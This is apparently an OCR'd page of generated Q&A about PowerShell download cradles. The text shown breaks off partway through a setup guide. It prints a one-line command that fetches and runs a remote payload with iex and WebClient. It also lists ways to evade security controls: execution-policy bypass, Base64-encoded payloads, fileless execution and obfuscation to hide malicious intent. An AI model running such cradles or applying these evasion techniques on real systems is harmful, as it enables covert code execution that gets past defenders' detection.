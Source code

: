 _In a PowerShell command-line environment, download cradles are achieved through the use of ``Invoke-Expression`` (or its alias iex) in combination with ``web requests functions`` like ``Invoke-WebRequest`` or ``System.Net.WebClient``. The main advantage of using a download cradle is that it keeps a low profile, allowing you to execute code with minimal detection chances._

_Here’s an example of a basic download cradle:_
```powershell iex (New-Object Net.WebClient).DownloadString("http://example.com/payload.ps1") “``` 
  
_It’s important to note that download cradles can be employed for both legitimate and malicious purposes. They have been widely used in penetration testing, automation tasks, and by adversaries in cyber attacks. As a PowerShell content creator, always use this technique responsibly and adhere to ethical guidelines._
***
## In the context of PowerShell command-line, what are the most effective techniques to bypass potential security restrictions while using download cradles?  
 
 _In the context of PowerShell command-line, there are several techniques that can be used to bypass potential security restrictions while using download cradles. It is important to note that these methods should be used responsibly and only for legitimate purposes such as penetration testing, vulnerability assessments, and improving system security._
 
 1. ***Use of ``-ExecutionPolicy Bypass``  flag**: This flag is used when launching PowerShell to bypass the execution policy set on the system. This allows the user to run potentially restricted scripts.*
 2. **Downloading files with Base64 encoding**: _Instead of downloading the raw script, you can download it as a Base64 encoded string. To do this, first encode your script in Base64 and then use the “DownloadString” method from “System.Net.WebClient” to fetch the content. Lastly, decode the Base64 string back into plain text and execute it._ 
 3. **Using Invoke-Expression (IEX) or Invoke-Command**: _Using the “Invoke-Expression” or “Invoke-Command” cmdlets, you can directly execute code downloaded from a remote source. This technique allows execution of the script without saving it to disk, making it harder for security tools to detect and block._
  
 4. **Combining commands with semicolons**: _Break down the command into smaller parts by separating them with semicolons. This technique helps to avoid detection by signature-based security systems._
 5.  **Utilizing trusted processes**: _Some security restrictions may allow commands to be executed through trusted processes like PowerShell.exe or cmd.exe.Leveraging these processes with their respective flags can help bypass the restrictions._ 
 6. **Employing obfuscation**: _Use obfuscation to hide the true intent of your script, making it harder for security tools to recognize its malicious nature. Tools like ‘Invoke-Obfuscation’ can assist in obfuscating your PowerShell scripts._ 
 
 ***Remember that these techniques are for educational purposes and should only be used ethically and responsibly. Misuse of these methods for malicious activities is strictly prohibited.***
  ***
## Can you provide step-by-step instructions on creating and implementing a custom PowerShell download cradle for secure and efficient file transfers within command-line environments?

_In this guide, we will go through the process of creating and implementing a custom PowerShell download cradle for secure and efficient file transfers within command-line environments. Here are the step-by-step instructions:_

**Step 1: Open PowerShell with elevated privileges** 
_First, open the PowerShell command-line environment with administrator privileges. To do this, right-click on the PowerShell icon, and select ``Run as administrator.``_ 
***
**Step 2: Configure script execution policy** 
_Before creating the custom PowerShell download cradle, configure the script execution policy to allow for the execution of your custom script. To do this, enter the following command:_ 

```powershell Set-ExecutionPolicy RemoteSigned ``` 
_Press ‘Y’ when prompted to confirm the policy change._
***
```